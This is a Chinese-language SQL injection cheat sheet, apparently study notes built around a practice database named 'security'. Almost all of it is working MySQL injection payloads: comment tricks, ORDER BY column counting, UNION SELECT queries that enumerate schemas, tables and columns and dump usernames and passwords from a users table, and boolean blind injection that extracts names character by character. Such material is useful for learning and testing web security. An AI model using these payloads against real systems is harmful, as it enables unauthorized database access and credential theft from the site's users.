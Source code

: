 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

`--+`
`-- 任意符号`
`%23`  (#ur编码)

##### 判断注入

`1' and 1=1 --+`
`1' and 1=2 --+`

##### 查询字段

`1' order by 1 --+` 正常
`1' order by 4 --+` 报错
`1' order by 3 --+` 正常
字段为3

##### UNION SELECT 联合查询

`-1' union select 1,2,3 --+`
`1' and 1=2 union select 1,2,3 --+`
报错2，3

##### 信息收集

`version()`   #Mysql版本
`user()`      #数据库用户名
`database()`  #数据库名
`@@datadir()` #数据库路径

##### 查询所有数据库

`-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+`

##### 查询当前数据库的所有表名

`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x`

##### 查询users表下的列名
`-1'  union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+`

##### 查询users表下的列名id,username,password的值
`-1'  union select 1, 2, group_concat(id,username,password) from users --+`

##### 布尔型盲注

![1](https://i.loli.net/2019/05/20/5ce2c8c162c6790704.png)

判断当前数据库名(security)长度
`id=1' and length((select database()))>=8 --+` 
`id=1' and length(database())>=8 --+`

判断数据库名第一位为ascii(115) = s(字母)
`id=1' and ascii(substr(database(),1,1))=115 --+`

判断数据库名第一位为ascii(101) = e(字母)
`id=1' and ascii(substr(database(),2,1))=101 --+`

第三位
`id=1' and ascii(substr(database(),3,1))=99 --+`

或者

数据库第一位为s
`id=1' and left(database(),1)='s' --+`

数据库前两位为se
`id=1' and left(database(),2)='se' --+`

查数据库security的表名
`emails,referers,uagents,users`

![2](https://i.loli.net/2019/05/20/5ce2c8f41037893235.png)

查第一张表名的第一个字符101 = e
`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+`

查第一张表名的第二个字符109 = m
`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+`

查第二张表名的第一个字符114 = r
`id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+`

查users表的列名
`id,username,password`

![3](https://i.loli.net/2019/05/20/5ce2c93bde5ad46381.png)

查users表的第一个列名的第一个字符 i
`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105--+`

查users表的第一个列名的第二个字符 d
`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=100--+`

查users表的第二个列名的第一个字符 u
`id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=117--+`

查数据库security表名users的内容

![4](https://i.loli.net/2019/05/20/5ce2c9690c65c59514.png)

查users表的username的第一字段的第一个字母 D

`id=1' and ascii(substr((select username from security.users order by id limit 0,1),1,1))=68--+`

查users表的username的第一字段的第二个字母 u

`id=1' and ascii(substr((select username from security.users order by id limit 0,1),2,1))=117--+`

查users表的username的第二字段的第一个字母 A

`id=1' and ascii(substr((select username from security.users order by id limit 1,1),1,1))=65--+`

查users表的username的第二字段的第二个字母 n

`id=1' and ascii(substr((select username from security.users order by id limit 1,1),2,1))=110--+`
